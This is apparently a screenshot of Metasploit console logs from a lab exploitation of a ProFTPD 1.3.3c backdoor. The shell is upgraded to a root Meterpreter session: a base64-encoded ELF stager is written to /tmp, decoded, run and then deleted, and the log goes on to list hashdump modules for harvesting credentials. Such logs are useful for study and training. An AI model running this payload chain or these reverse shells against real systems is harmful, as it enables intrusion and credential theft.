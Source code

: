 ```
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.123.71.2:4433 
[*] Sending stage (980808 bytes) to 192.123.71.3
[*] Meterpreter session 2 opened (192.123.71.2:4433 -> 192.123.71.3:50578) at 2023-07-15 11:55:28 +0000
[-] Error: Unable to execute the following command: "echo -n f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2o
CsGaJ4c2Al1towHtHAmgCABFRieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZsmqwA82AhcB4Av/huAEAAAC7AQAAAM2A>>'/tmp/igQxY.b64' ; ((which base64 >&2
 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print 
base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/tLqOD' < '/tmp/igQxY.b64' ; chmod +x '/tmp/tLq
OD' ; '/tmp/tLqOD' & sleep 2 ; rm -f '/tmp/tLqOD' ; rm -f '/tmp/igQxY.b64'"
[-] Output: "[1] 58"
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                                       Connection
  --  ----  ----                   -----------                                                       ----------
  1         shell cmd/unix                                                                           192.123.71.2:4444 -> 192.123.71.3:48342 (192.123.71.3)
  2         meterpreter x86/linux  no-user @ victim-1 (uid=0, gid=0, euid=0, egid=0) @ 192.123.71.3  192.123.71.2:4433 -> 192.123.71.3:50578 (192.123.71.3)
```

```
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > search hashdump

Matching Modules
================

   #   Name                                                  Disclosure Date  Rank    Check  Description
   -   ----                                                  ---------------  ----    -----  -----------
   0   auxiliary/analyze/crack_databases                                      normal  No     Password Cracker: Databases
   1   auxiliary/scanner/mssql/mssql_hashdump                                 normal  No     MSSQL Password Hashdump
   2   auxiliary/scanner/mysql/mysql_authbypass_hashdump     2012-06-09       normal  No     MySQL Authentication Bypass Password Dump
   3   auxiliary/scanner/mysql/mysql_hashdump                                 normal  No     MYSQL Password Hashdump
   4   auxiliary/scanner/oracle/oracle_hashdump                               normal  No     Oracle Password Hashdump
   5   auxiliary/scanner/postgres/postgres_hashdump                           normal  No     Postgres Password Hashdump
   6   auxiliary/scanner/smb/impacket/secretsdump                             normal  No     DCOM Exec
   7   post/aix/hashdump                                                      normal  No     AIX Gather Dump Password Hashes
   8   post/android/gather/hashdump                                           normal  No     Android Gather Dump Password Hashes for Android Systems
   9   post/bsd/gather/hashdump                                               normal  No     BSD Dump Password Hashes
   10  post/linux/gather/hashdump                                             normal  No     Linux Gather Dump Password Hashes for Linux Systems
```